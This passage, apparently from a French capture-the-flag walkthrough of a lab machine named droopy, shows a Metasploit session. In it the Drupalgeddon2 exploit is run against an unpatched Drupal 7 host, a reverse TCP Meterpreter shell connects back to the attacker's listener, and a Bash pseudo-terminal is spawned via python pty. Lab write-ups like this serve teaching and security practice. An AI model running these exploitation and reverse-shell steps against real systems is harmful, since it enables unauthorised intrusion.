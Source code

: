 ```console
root@blinils:~# service postgresql start
root@blinils:~# msfconsole --quiet
[*] Starting persistent handler(s)...

msf > search drupal

Matching Modules
================

Name                                           Disclosure Date  Rank       Description
----                                           ---------------  ----       -----------
auxiliary/gather/drupal_openid_xxe             2012-10-17       normal     Drupal OpenID External Entity Injection
auxiliary/scanner/http/drupal_views_user_enum  2010-07-02       normal     Drupal Views Module Users Enumeration
exploit/multi/http/drupal_drupageddon          2014-10-15       excellent  Drupal HTTP Parameter Key/Value SQL Injection
exploit/unix/webapp/drupal_coder_exec          2016-07-13       excellent  Drupal CODER Module Remote Command Execution
exploit/unix/webapp/drupal_drupalgeddon2       2018-03-28       excellent  Drupal Drupalgeddon 2 Forms API Property Injection
exploit/unix/webapp/drupal_restws_exec         2016-07-13       excellent  Drupal RESTWS Module Remote PHP Code Execution
exploit/unix/webapp/php_xmlrpc_eval            2005-06-29       excellent  PHP XML-RPC Arbitrary Code Execution

msf > use exploit/unix/webapp/drupal_drupalgeddon2

msf exploit(unix/webapp/drupal_drupalgeddon2) > set RHOST 192.168.56.102
RHOST => 192.168.56.102

msf exploit(unix/webapp/drupal_drupalgeddon2) > exploit -j
[*] Exploit running as background job 0.

[*] Started reverse TCP handler on 192.168.56.101:4444 
[*] Drupal 7.x targeted at http://192.168.56.102/
[+] Drupal appears unpatched in CHANGELOG.txt
[*] Sending stage (37775 bytes) to 192.168.56.102
[*] Meterpreter session 1 opened (192.168.56.101:4444 -> 192.168.56.102:44530) at 2018-05-08 01:23:45 +0200
```

C'est gagné, nous avons un shell !

Il ne nous reste plus qu'à créer un [pseudo-terminal Bash](https://netsec.ws/?p=337) avec le module PTY.

```console
msf exploit(unix/webapp/drupal_drupalgeddon2) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer    : droopy
OS          : Linux droopy 3.13.0-43-generic #72-Ubuntu SMP Mon Dec 8 19:35:06 UTC 2014 x86_64
Meterpreter : php/linux

meterpreter > shell
Process 1276 created.
Channel 0 created.

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

python -c 'import pty; pty.spawn("/bin/bash");'
```